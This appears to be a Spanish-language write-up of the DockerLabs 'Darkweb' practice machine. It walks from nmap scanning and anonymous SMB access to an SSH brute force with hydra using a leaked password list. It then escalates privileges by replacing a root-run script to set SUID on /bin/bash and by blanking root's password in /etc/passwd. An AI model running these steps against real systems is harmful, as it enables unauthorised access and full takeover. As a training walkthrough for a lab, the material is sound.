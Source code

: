 ```yaml
---
title: Darkweb
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-24
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-darkweb/darkweb_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - smb
  - ftp
  - misconfigurations
  - data leaks
  - password attacks
  - onion
  - tor
  - sudo abuse
  - information gathering
  - misconfiguration exploitation
  - data leak exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.077 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.077/0.077/0.077/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///       Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ sudo nmap -sCV -p22,139,445 -vvv -oN nmap2 127.17.0.2
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 28228/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 46105/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 29351/udp): CLEAN (Failed to receive data)
|   Check 4 (port 64790/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-31T16:30:59
|_  start_date: N/A
|_clock-skew: 0s
```

---
## Misconfiguration & Data Leak Exploitation

Empiezo la enumeración explorando recursos compartidos de SMB.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ smbclient -L //127.17.0.2/ -N
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_1.png)

El resultado muestra un recurso compartido llamado `darkshare` que permite acceso anónimo.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ smbclient //127.17.0.2/darkshare -N 
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_2.png)

Accedo al recurso `darkshare` y descargo los archivos dentro.

```terminal
smb: \> get ilegal.txt 
getting file \ilegal.txt of size 204 as ilegal.txt (199.2 KiloBytes/sec) (average 505.1 KiloBytes/sec)

/home/kali/Documents/dockerlabs/darkweb:-$ cat ilegal.txt
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_3.png)

El contenido del archivo `ilegal.txt` está cifrado utilizando el cifrado César. Utilizo un servicio en línea [Dcode](https://www.dcode.fr/cifrado-esar) para descifrar el archivo. El texto revelado contiene una dirección `.onion` que apunta a un servicio en la red Tor.

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_4.png)

Al acceder al sitio `.onion`, exploro varias rutas sin encontrar contenido relevante.

![](assets/img/dockerlabs-writeup-darkweb/darkweb2_1.png)
![](assets/img/dockerlabs-writeup-darkweb/darkweb2_2.png)
![](assets/img/dockerlabs-writeup-darkweb/darkweb2_3.png)

Hasta que llego a la siguiente ruta, `Access the Darkest Web` > `Hidden Marketplace` > `Confidential List's Passwords`. En esta ubicación, se encuentra un archivo de texto que contiene una lista de contraseñas.

![](assets/img/dockerlabs-writeup-darkweb/darkweb2_4.png)

Dado que no obtuve nada más relevante, intento un ataque de fuerza bruta al servicio SSH. Basándome en la temática de la máquina, utilizo el nombre de usuario `dark` y la lista de contraseñas obtenida.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ hydra -l dark -P passlist.txt ssh://172.17.0.2 -t 60 -I
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb2_5.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ ssh dark@127.17.0.2
dark@127.17.0.2's password: oniondarkgood

dark@kali:~$ id
uid=1001(dark) gid=1001(dark) groups=1001(dark),100(users)
```

---
## Privilege Escalation

```terminal
dark@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
dark:x:1001:1001:dark,,,:/home/dark:/bin/bash
```

El usuario `dark` tiene privilegios para ejecutar el script `/home/dark/hidden.py` con permisos de `sudo`, sin necesidad de contraseña.

```terminal
dark@kali:~$ sudo -l
Matching Defaults entries for dark on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on kali:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

El script ejecuta el archivo `/usr/local/bin/Update.sh` con permisos de `root`.

```terminal
dark@kali:~$ cat hidden.py 
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb3_1.png)

```terminal
dark@kali:~$ sudo /home/dark/hidden.py
root
Script ejecutado con éxito.
```

El archivo `/usr/local/bin/Update.sh` es propiedad del usuario `root` y no tiene permisos de escritura para otros usuarios. Sin embargo, tiene permisos de escritura para el grupo `root` y permisos de lectura para todos los usuarios.

En lugar de modificar el contenido existente del archivo (lo cual no puedo hacer directamente), lo elimino y creo uno completamente nuevo. Este cambio es posible porque el directorio en el que se encuentra `/usr/local/bin/` tiene permisos que me permiten borrar y crear archivos nuevos como el usuario `dark`.

```terminal
dark@kali:~$ rm /usr/local/bin/Update.sh

dark@kali:~$ cat /usr/local/bin/Update.sh
#!/bin/bash

chmod u+s /bin/bash
```

Este nuevo script establece el bit SUID en el binario de Bash `/bin/bash`, lo que permitirá ejecutar Bash con privilegios de `root`.

Como el script `hidden.py` ejecuta `/usr/local/bin/Update.sh` con permisos de `root`, el bit SUID se aplica correctamente al binario de Bash.

```terminal
dark@kali:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.

dark@kali:~$ /bin/bash -p
bash-5.2# sed -i 's/root:x:/root::/g' /etc/passwd && su

root@kali:/home/dark# id
uid=0(root) gid=0(root) groups=0(root)
```
